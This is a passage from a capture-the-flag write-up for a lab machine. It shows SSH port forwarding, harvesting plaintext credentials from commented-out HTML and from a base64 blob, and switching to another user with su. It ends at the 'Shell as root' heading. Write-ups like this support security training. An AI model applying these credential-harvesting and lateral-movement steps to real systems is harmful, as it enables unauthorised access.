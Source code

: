 ```console
```

Forwarding the port using ssh.
```console
challenger@thm-lamp:/var/www$ ~C
ssh> -L 10000:127.0.0.1:10000
Forwarding port.
```

Viewing the source code of the `http://127.0.0.1:10000/public/html/login.php` page, it includes commented-out credentials that work for logging in.

```
<!-- <input type="text" id="username" name="username" class="form-control" value="gabriela"> -->
<!-- <input type="password" id="password" name="password" class="form-control" value="^5hf5w&CAt9sPr@"> -->
```

After logging in, there are credentials for user `cobra` at `http://127.0.0.1:10000/public/html/dashboard.php`.

![Cobra credentials](notes_site.webp){: width="1000" height="800" }

Using these credentials, we are not able to login as `cobra` using `ssh`, but we can switch to the user using `su` command from the ssh session we have as `challenger`.

```console
challenger@thm-lamp:~$ su cobra -
Password: 
cobra@thm-lamp:/home/challenger$ id
uid=1002(cobra) gid=1002(cobra) groups=1002(cobra)
```
### Alternative way to get credentials for cobra

Since user `challenger` is able to read files in `/var/www/notes`, instead of forwarding the port and accessing the website, it is possible to just read the `/var/www/notes/api/posts.php` and get the credentials by decoding the base64 blob inside.
```console
$ echo 'W3si...1In1d' | base64 -d | jq   
[
  {
    "title": "To-do list",
    "content": "Define app requirements:<br> 1. Design user interface. <br> 2. Set up development environment. <br> 3. Implement basic functionality."
  },
  {
    "title": "My SSH login",
    "content": "cobra / [REDACTED]"
  }
]
```

## Shell as root
